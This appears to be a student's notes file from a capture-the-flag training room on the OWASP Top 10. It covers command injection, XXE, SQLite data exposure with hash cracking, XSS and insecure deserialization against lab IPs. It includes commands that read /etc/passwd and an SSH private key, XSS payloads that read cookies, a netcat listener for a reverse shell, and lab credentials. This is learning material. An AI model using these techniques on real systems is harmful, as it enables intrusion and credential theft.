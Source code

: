 # OWASP Top 10 ... in 10 days

# Date: 17.09.2020

# IPs
>day 01: `10.10.212.139`
day 02: `10.10.107.63`
day 03: `10.10.146.107`
day 04: `10.10.91.218`
day 05: `10.10.88.61`
day 06: `10.10.45.97`
day 07: `10.10.230.10` - bad machine (error on www)
		`10.10.33.71` - that worked just fine
day 08: `10.10.81.217`
day 09: `10.10.117.71`
day 10: ``

------------
## Day 1
### Injection

IP: `10.10.212.139`
Host: `http://10.10.212.139/evilshell.php`

commands used:
- ls
- cat /etc/passwd
- id
- cat /etc/passwd
- cat /etc/os-release
- cat /etc/motd.d/00-header


------------
## Day 2
### Broken Authentication

IP:`10.10.107.63`
Host: `http://10.10.107.63:8888/`

register as " darren", login, used devtools to get the flag
same path for " arthur"



------------
## Day 3
### Sensitive Data Exposure

IP: `10.10.146.107`
Host: `10.10.146.107`

list of columns in table: `PRAGMA table_info(customers);`

find /assets (using gobuster dir -u http://IP -w wordlist.txt)
dl webapp.db from /assets db
used sqlite3 webapp.db

''
sqlite> .tables
sessions  users   
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0
''
decode admin hash password with crackstation: `qwertyuiop`

login to the website to get the flag



------------
## Day 4
### XML External Entity

IP:`10.10.91.218`

BURP --> repeater --> XXE modifications
" /etc/passwd , /home/falcon/.ssh/id_rsa"



------------
## Day 5
### Broken Access Control
IP: `10.10.88.61`
Host: `10.10.88.61`
noot:test1234


------------
## Day 6
### Security Misconfiguration

IP:`10.10.45.97`

gobuster dir -u http://<IP> -w wordlist.txt

during scan i went looking online and found corret ones pensive:PensiveNotes


------------
## Day 7
### Cross-site Scripting

IP:`10.10.230.10` - bad machine
   `10.10.33.71`
Host: `http://10.10.33.71/reflected`


Payload <script>alert("Hello")</script> 
Payload <script>alert(window.location.hostname)</script> 
Payload <script>alert(document.cookie)</script> 
Payload <script>document.querySelector('#thm-title').textContent = 'I am a hacker'</script> - thnx google!


------------
## Day 8
### Insecure Deserialization

IP:`10.10.81.217`
Host: `10.10.81.217`

decode sessionID to get 1st flag :) echo -n <sessiionId> | base64 -d

create python file to make a payload, run nc -lvnp and just tha flag is .. there :)

------------
## Day 9
### Components with Known Vulnerabilities

IP:`10.10.117.71`



------------
## Day 10
### Insufficent Logging & Monitoring



